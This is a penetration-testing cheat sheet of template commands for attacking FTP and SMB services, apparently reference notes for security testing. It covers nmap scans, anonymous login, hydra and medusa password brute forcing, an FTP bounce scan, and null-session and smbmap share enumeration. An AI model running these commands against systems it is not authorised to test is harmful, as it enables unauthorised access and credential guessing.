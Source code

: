 ## attacking common services - ftp - nmap ftp script scan
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
sudo nmap -sC -sV -p 21 <ip>
```

## attacking common services - ftp - test anonymous login
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
ftp <ip>
```

## attacking common services - ftp medusa brute forcing
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
medusa -u <user> -P <PathTopassFile> -h <ip> -M ftp
```

## attacking common services - ftp bounce attack
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nmap -Pn -v -n -p<-/orSpecifyPorts> -b <username>:<password>@<FTPserverIP> <SecondTargetIP>
```

## attacking common services - ftp brute force
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
hydra -<Ll> <user> -<Pp> <pass> ftp://<ip>:<port>
```

## attacking common services - smb - smb NULL session
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
smbclient -N -L //<IP>
```

## attacking common services - smb - smb nmap
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
sudo nmap <IP> -sV -sC -p139,445
```

## attacking common services - smb - smbmap
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
smbmap -H <IP>
```

## attacking common services - smb - recursive
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
smbmap -H <IP> -r <dir>
```
